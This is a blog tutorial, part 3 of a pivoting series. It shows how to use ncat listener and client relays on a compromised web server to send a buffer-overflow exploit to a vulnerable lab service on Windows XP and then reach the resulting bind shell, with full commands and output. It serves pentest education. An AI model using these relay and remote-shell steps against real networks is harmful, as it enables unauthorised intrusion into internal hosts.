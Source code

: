 ```yaml
---
layout: post
title: "Introduction to pivoting, Part 3: Ncat"
date: 2012-10-16 18:10:26 -0400
comments: true
categories: howto hacking
redirect_from: /2012/10/introduction-to-pivoting-part-3-ncat.html
---
```


In the past two articles, we pivoted our exploit to our target with the help of SSH. If SSH is not available, we can try to use client-to-client and listener-to-listener relays with netcat, as described by Ed Skoudis in [Secrets of America's Top Pen Testers](http://www.inguardians.com/research/docs/Skoudis_pentestsecrets.pdf). We will modify Skoudis' technique by using ncat instead of netcat. Ncat is meant to be a replacement for netcat, and is included in the Nmap 5.x and higher package. I prefer ncat over netcat for this as it allows us to use the same syntax to set up the relays regardless of whether the pivot is running Linux, Windows, or Mac OS X.

<!--more-->

### The scenario

There are two networks, 192.168.81.0/24 and 192.168.63.0/24. Our attacking machine, and a web server that has access to the 192.168.63.0/24 network are located in the 192.168.81.0/24 network. Our target, a Windows XP SP2 machine, is located in the 192.168.63.0/24. Our attacking machine does not have direct access to it, but the web server does.

![](/images/2012-10-16/01.jpg)

We've already compromised the web server and obtained SSH access to it as the user webmaster. Our goal is to use the web server as our pivot and obtain a remote shell on the Windows XP machine.

### The exploit

The Windows XP machine runs a vulnerable service called Server-Strcpy on port 10000. Server-Strcpy is part of the [SecurityTube Exploit Research Megaprimer](http://www.securitytube.net/video/1399) series, and can be downloaded at [http://code.securitytube.net/Server-Strcpy.exe](http://code.securitytube.net/Server-Strcpy.exe). I've written a quick exploit for Server-Strcpy.exe that binds a shell on port 4444, and can be downloaded [here](http://techorganic.com/software/serverstrcpy.py).

### The attack

We need to run ncat on our attacking machine, and on the web server. This means that we need to transfer ncat over to the web server. If your pivot is a Linux machine, you can build a static ncat binary using the following: 

```
# LDFLAGS="-static" ./configure && make ncat_build
```

If the pivot is a Windows machine, you can download a static build of ncat.exe from [http://seclists.org/nmap-dev/2011/q2/1090](http://seclists.org/nmap-dev/2011/q2/1090). Once ncat has been copied over to the pivot, we can begin.

On our attacking machine, we setup a listener-to-listener relay using the following command: 

```
# ncat -lv --broker -m2 10000
Ncat: Version 6.01 ( http://nmap.org/ncat )
Ncat: Listening on :::10000
Ncat: Listening on 0.0.0.0:10000
```

At this point, we'll have port 10000 listening on our machine. On the web server we execute the following command: 

```
$ ncat -v 192.168.81.125 10000 -c "ncat -v 192.168.63.142 10000"
Ncat: Version 5.51 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.81.125:10000.
Ncat: Version 5.51 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.63.142:10000.
```

This tells ncat to connect to our ncat instance listening on port 10000, and then to connect to port 10000 on the target. This completes the setup, and data from our machine will flow through the web server and to the target.

Note that the syntax for executing the client-to-client relay on the pivot is the same, regardless of whether it's a Linux, Windows, or OS X machine. There's nothing else that needs to be done, such as creating a pipe. Compare it to the technique that uses traditional netcat to see the difference.

We can now execute our exploit. Keep in mind that we need to send it to port 10000 on our machine: 

```
# ./exploit.py 127.0.0.1 10000
[+] sending payload of length 1479
[+] done
#
```

With the exploit sent, we can now terminate the ncat relays. Assuming the exploit worked, a bind shell should be listening on 4444 on the target. In order to access it, we once again setup ncat relays, only this time we'll specify port 4444. On our machine we run the following command: 

```
# ncat -lv --broker -m2 4444
Ncat: Version 6.01 ( http://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```

On the web server, we setup the client-to-client relay: 

```
$ ncat -v 192.168.81.125 4444 -c "ncat -v 192.168.63.142 4444"
Ncat: Version 5.51 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.81.125:4444.
Ncat: Version 5.51 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.63.142:4444.
```

Using netcat (or ncat), we can connect to port 4444 on our machine to get a remote shell on the target: 

```
# nc -v 127.0.0.1 4444
localhost [127.0.0.1] 4444 (?) open
 
 
C:\Documents and Settings\Administrator\Desktop>ipconfig
ipconfig
 
Windows IP Configuration
 
 
Ethernet adapter Local Area Connection:
 
        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.63.142
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.63.2
 
C:\Documents and Settings\Administrator\Desktop>
```

We've obtained remote shell access to the Windows XP target once more.

Ncat is a great tool and builds enhancements into the old netcat. It's small, available for major operating systems, and easy to use. In part 4 of this serieis, we'll look at Metasploit's pivoting feature. If Metasploit is your exploitation framework of choice, you'll want to learn to use it to pivot your attacks.

